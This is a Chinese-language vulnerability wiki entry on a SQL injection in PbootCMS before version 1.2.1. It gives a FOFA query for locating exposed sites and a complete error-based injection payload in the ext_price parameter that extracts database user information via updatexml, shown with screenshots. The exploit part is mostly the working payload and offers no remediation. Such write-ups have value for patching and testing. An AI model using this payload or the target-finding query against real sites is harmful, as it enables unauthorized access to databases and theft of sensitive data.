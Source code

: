 # PbootCMS ext_price SQL注入漏洞

## 漏洞描述

PbootCMS 存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

> [!NOTE]
>
> PbootCMS < 1.2.1

## FOFA

> [!NOTE]
>
> app="PBOOTCMS"

## 漏洞复现

主页

![image-20210702113507454](http://wikioss.peiqi.tech/vuln/image-20210702113507454.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

测试 Payload

```
/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,user(),0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123](http://127.0.0.1/PbootCMS/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,user(),0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123)
```

![image-20210702113552582](http://wikioss.peiqi.tech/vuln/image-20210702113552582.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)